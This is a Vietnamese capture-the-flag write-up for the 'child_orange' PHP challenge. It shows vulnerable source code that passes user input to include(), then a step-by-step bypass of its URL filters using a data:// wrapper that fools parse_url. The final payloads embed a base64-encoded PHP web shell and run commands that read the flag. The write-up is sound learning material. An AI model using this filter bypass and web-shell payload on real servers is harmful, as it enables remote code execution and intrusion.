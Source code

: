 # [CTF] child_orange
## Solution
Source code:
```
<?php
  ini_set('open_basedir', '.');
  if(isset($_GET['url'])){
    $url = $_GET['url']; //.".txt";       I think i should make this challenge eaiser :)))
    if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");
    if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url)) exit("invalid server");
    if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");
    if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");
    if(parse_url($url)['user'] || parse_url($url)['pass']) exit("you are not orange");
    include $url;
  }
  else {
    highlight_file(__FILE__); 
    exit();
  }
  // Hint: Google is your friend!!!! XD
?>
```
Review qua source code nào:
param ``url`` ở đây được đối xử như 1 URL thật và nó phải pass qua 1 đống ``filter_var``, ``preg_match`` , ``parse_url`` , đến đây mình dự đoán nó có thể là RFI rồi. 

Theo hint của anh Nhiên thì lọ mọ đi search google thoy. sau khi search 1 hồi thì mình tìm thấy, 1 số report cũng như bài thuyết trình của ``orange tsai`` :-=)) Trong BlackHat nói về SSRF dẫn đến exploiting ``parse_url``. Nó có 1 số thủ thuật khá hay để abusing cái parse_url như là thêm @ để làm cái parse_url nhầm lẫn giữa ``host`` và ``user`` hoặc là CLRF ( ``\r\n``),.. 

![img](./img/Screenshot%20from%202022-03-04%2022-55-29.png)

Reference:
- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
- https://www.youtube.com/watch?v=voTHFdL9S2k&t=222s

Đến đây mình đã đinh ninh bài này nó là SSRF rồi RFI rùi nhưng mà khoan, các thủ thuật trên đều phải trigger vào giữa cái url, cái này nó không thỏa mãn được điều kiện ``if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url))``.. soo how?

Thực ra còn 1 cách khác không liên quan đến cách trên đó chính là dùng ``php wrapper``, cụ thể mình dùng ``data://`` 
Reference: https://www.php.net/manual/en/wrappers.data.php . 

Mình đã test thử với filter ``if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");`` và bằng cách thần kì nào đó nó coi wrapper là 1 validate url =)).

![img](./img/Screenshot%20from%202022-03-04%2023-05-19.png)

Cho nó vào parse_url() để var_dump nó ra xem như thế nào: 

![img](./img/Screenshot%20from%202022-03-04%2023-10-40.png)

hmm thế này là không thoả mãn đuợc ``if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");``. Thử thêm text vào truớc scheme ``http`` để trigger xem sao. 

payload: 

``url="data://sometext/http:/nhienit.kma:2010//plain,test";``

![img](./img/Screenshot%20from%202022-03-04%2023-14-26.png)

Bingo, bằng cách này ta có thể abuse host và port của cái parse_url, payload của mình sẽ là:

``url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain,test;``

![img](./img/Screenshot%20from%202022-03-04%2023-18-19.png)

Đây là tiền đề để có thể thực hiện rce rồi, mình có thể ném script php lên (``include`` ở đây sẽ coi php wrapper ``data://`` là 1 file dữ liệu, và sẽ thực thi script của mình) , cụ thể trong bài này ta phỉa encode script php theo dạng base64 vì ``php tag`` bị dính filter. script php: ``PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=`` (aka ``<?php system($_GET['cmd']);?>``)

payload: 
``?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=ls -lsa``

![img](./img/Screenshot%20from%202022-03-04%2023-26-08.png)

nice, final payload:

``?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=cat ../../../flag``

flag: KCSC{flag_for_testing}
